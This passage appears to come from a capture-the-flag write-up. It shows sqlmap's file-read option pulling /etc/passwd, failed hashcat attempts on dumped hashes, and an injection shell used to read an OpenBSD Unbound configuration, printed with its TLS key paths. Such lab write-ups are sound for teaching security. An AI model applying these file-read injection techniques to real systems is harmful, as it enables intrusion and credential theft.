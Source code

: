 `sqlmap` will also read files using `--file-read=/etc/passwd`, but it saves it to a file which I then have to open, which is a minor pain.

### Hashcat Failures

I spent some time with `hashcat` trying to break both the token and the passwords for the accounts dumped from the database. Both looks like SHA256 hashes, but no wordlists I tried returns anything.

## Access to Chat

### Filesystem Enumeration

#### unbound

I tried to read the Unbound config file, but failed:

```

injection> read /etc/unbound/unbound.conf
null

```

On OpenBSD, it’s actually at `/var/unbound/etc/unbound.conf` according to [the docs](https://man.openbsd.org/unbound.conf). That worked:

```

injection> read /var/unbound/etc/unbound.conf
server:
        interface: 127.0.0.1
        interface: ::1
        access-control: 0.0.0.0/0 refuse
        access-control: 127.0.0.0/8 allow
        access-control: ::0/0 refuse
        access-control: ::1 allow
        hide-identity: yes
        hide-version: yes
        msg-cache-size: 0
        rrset-cache-size: 0
        cache-max-ttl: 0
        cache-max-negative-ttl: 0
        auto-trust-anchor-file: "/var/unbound/db/root.key"
        val-log-level: 2
        aggressive-nsec: yes
        include: "/var/unbound/etc/conf.d/local_zones.conf"

remote-control:
        control-enable: yes
        control-interface: 0.0.0.0
        control-use-cert: yes
        server-key-file: "/var/unbound/etc/tls/unbound_server.key"
        server-cert-file: "/var/unbound/etc/tls/unbound_server.pem"
        control-key-file: "/var/unbound/etc/tls/unbound_control.key"
        control-cert-file: "/var/unbound/etc/tls/unbound_control.pem"

```

